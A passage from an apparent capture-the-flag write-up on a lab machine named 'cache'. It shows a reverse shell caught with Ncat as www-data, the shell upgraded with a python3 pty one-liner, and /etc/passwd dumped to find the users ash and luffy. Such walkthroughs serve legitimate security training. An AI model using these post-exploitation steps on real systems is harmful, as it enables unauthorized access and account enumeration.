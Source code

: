 ```bash
...
Ncat: Connection from 10.10.10.188.
Ncat: Connection from 10.10.10.188:56954.
Linux cache 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 18:31:39 up  4:20,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 

```
<br />Let's spawn tty from python3 in the target machine to have a better shell.
<br />
```bash
$ python3 -c "import pty; pty.spawn('/bin/bash')"
www-data@cache:/$ 
```
## Privesc Enumeration as www-data

Let's check for other users. Let'c check the /etc/passwd

### Checking /etc/passwd

```bash
www-data@cache:/$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
ash:x:1000:1000:ash:/home/ash:/bin/bash
luffy:x:1001:1001:,,,:/home/luffy:/bin/bash
memcache:x:111:114:Memcached,,,:/nonexistent:/bin/false
mysql:x:112:115:MySQL Server,,,:/nonexistent:/bin/false
```
<br />We can see that there are 2 standard users, ash and luffy. 
